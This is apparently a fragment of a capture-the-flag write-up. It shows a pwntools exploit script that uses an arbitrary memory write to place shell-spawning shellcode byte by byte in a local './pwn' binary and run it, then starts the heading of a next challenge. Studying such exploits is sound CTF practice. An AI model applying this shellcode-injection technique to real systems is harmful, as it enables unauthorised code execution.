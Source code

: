 ```bash
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']

x64_32 = 1

if x64_32:
    context.arch = 'amd64'
else:
    context.arch = 'i386'

p=process('./pwn')

def write_value(addr, value): 
    p.sendlineafter(b"addr: ", addr) 
    p.sendlineafter(b"value: ", value) 

write_value(b"0x600bcf", b"0xff") 
write_value(b"0x600970", b"0x70") 
write_value(b"0x600971", b"0x0a")   
write_value(b"0x600972", b"0x20") 

shellcode = asm(shellcraft.sh()) 
for i in range(len(shellcode)): 
    write_value(hex(0x600c60+i), hex(shellcode[i])) 

write_value(b"0x600bcf", b"0xff") 
p.interactive()
```

## Memory\_Monster\_II

### 思路

[![](assets/1706959474-673a4bf3c9cac8bcec339c9bdc829125.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240125151659-bad8336e-bb51-1.png)
